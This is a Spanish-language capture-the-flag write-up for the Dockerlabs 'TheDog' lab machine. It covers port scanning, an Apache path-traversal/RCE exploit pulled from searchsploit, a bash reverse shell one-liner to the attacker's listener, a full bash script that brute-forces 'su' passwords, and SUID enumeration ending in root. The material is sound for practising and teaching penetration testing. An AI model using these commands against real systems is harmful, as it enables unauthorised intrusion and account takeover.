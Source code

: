# 🖥️ Write-Up: [THEDOG](https://dockerlabs.es)

## 📌 Información General
    - Nombre de la máquina: TheDog
    - Plataforma: Dockerlabs
    - Dificultad: Medio
    - Creador: Firstatack
    - OS: Linux
---

## 🔍 Enumeración

La máquina TheDog posee la ip 172.17.0.2.

### Descubrimiento de Puertos

Utilizando la herramienta de **nmap** vamos a descubrir los puertos abiertos de la máquina.

![allPorts](screenshots/allPorts.png)

Vemos que únicamente el puerto **80** está abierto,por lo que usaremos **nmap** para averiguar que servicio y versión se está ejecutando en él.

![target](screenshots/target.png)

### Puerto 80

El puerto 80 está ejecutando un servicio web con **Apache**.

Si accedemos con el navegador a él, vemos una página informativa sobre el comando **ping**.

![home-80](screenshots/home-80.png)


Vamos a enumerar subdirectorios de la web con la herramienta **gobuster**

![fuzzing](screenshots/fuzzing.png)

Vemos un subdirectorio **html.html**, el cual si accedemos a su contenido, nos proporciona un nombre de usuario, **punky**, pero no dispondemos de un servicio de autenticación para probarlo.

![page-html](screenshots/page-html.png)

## 🔥 Explotación

No encontramos nada en la web, por lo que vamos a buscar en **searchsploit** la versión de **Apache** que hemos averiguado con **nmap**.

![searchsploit](screenshots/searchsploit.png)

Y vemos que es vulnerable a **Path Traversal** y **Remote Code Execution**, por lo que nos vamos a bajar el script que aparece a la derecha.

```bash
searchsploit -m multiple/webapps/50383.sh
```

Lo renombramos como exploit.sh.

Este exploit es obra de **Lucas Souza**. Para que funcione tenemos que pasarle un archivo que contenga los hosts y una ruta del sistema.

![exploit-1](screenshots/exploit-1.png)

Como nostros solo tenemos un host, vamos a modificar un poco el script, para no tener que pasarle un archivo.

![exploit-2](screenshots/exploit-2.png)

Ahora lo ejecutamos
```bash
./exploit.sh /bin/bash "whoami"
```

Y recibimos **www-data**, por lo tanto, nos vamos a mandar una reverse shell.

Primero nos ponemos en escucha con **netcat**.
```bash
nc -nlvp 443
```

Y ejecutamos la reverse shell.
```bash
./exploit.sh /bin/bash "bash -i >& /dev/tcp/172.17.0.1/443 0>&1"
```

Recibimos la shell.

![shell](screenshots/shell.png)

Ahora realizamos el tratamiento de la **TTY**

![tty1](screenshots/tty1.png)
![tty2](screenshots/tty2.png)

## 🧗 Escalada de Privilegios

### Punky

Vamos a aplicar un ataque de **Fuerza Bruta** para averiguar la contraseña del usuario **punky**, para ello, utilizamos el siguiente script de bash, **force.sh** y una versión reducida del rockyou que contendrá las primeras 5000 contraseñas que llamaremos **minirock**.

```bash
#!/bin/bash

# Colour
greenColour="\e[0;32m\033[1m"
redColour="\e[0;31m\033[1m"
endColour="\033[0m\e[0m"

ctrl_c(){
    echo -e "\n${redColour}[!] Aborting...${endColour}\n"
    tput cnorm && exit 1
}

# Ctrl+c
trap ctrl_c INT

if [ "$#" -ne "2" ]; then
	echo "Insert an user and a password's list"
	exit 1
fi

user="$1"
dicc="$2"

tput civis
while read passw ; do

    echo "Checking $passw"
    timeout 0.2 echo $passw | su $user -c 'echo "Hello"' &>/dev/null 

    if [ $? -eq 0 ]; then
        echo -e "\nUser--> ${greenColour}$user${endColour} Password--> ${greenColour}$passw${endColour}\n"
        tput cnorm && exit 0
    fi

done < $dicc

tput cnorm
```

Vamos a utilizar la **clipboard** para pasarnos el contenido de ambos archivos de nuestro equipo a la máquina. Utilizamos la herramienta **xclip** para copiar el contenido a la clipboard más fácilmente.
```bash
cat force.sh | xclip -selection clipboard
```

Ahora en el directorio **/tmp** de la máquina utilizamos el editor **nano** y le pegamos el contenido copiado. Llamamos al archivo force.sh y le damos permisos de ejecución `chmod +x force.sh`

Repetimos el proceso con el diccionario **minirock** y ejecutamos.

```bash
./force.sh punky minirock
```

Tras esperar un poco, encontramos la contraseña de **punky**, **secret**.

![password-punky](screenshots/password-punky.png)

Nos convertimos en el usuario **punky**.

### Root

Revisamos los archivos con permisos **SUID**
```bash
find / -perm -4000 2>/dev/null
```

Encontramos el binario **/usr/local/bin/task_manager**. Utilizamos strings para ver las cadenas legibles de este binario.

```bash
strings /usr/local/bin/task_manager
```

Vemos un listado de contraseñas, por lo que las vamos a meter en un archivo que llamaremos **root_passw** y a ejecutar el script de fuerza bruta que teníamos contra el usuario root pero con esas contraseñas.

![strings](screenshots/strings.png)

```bash
./force.sh root root_passwd
```
Y encontramos las contraseña de root, **hannah**

Así que con ella nos convertimos en el usuario root.

![root](screenshots/root.png)
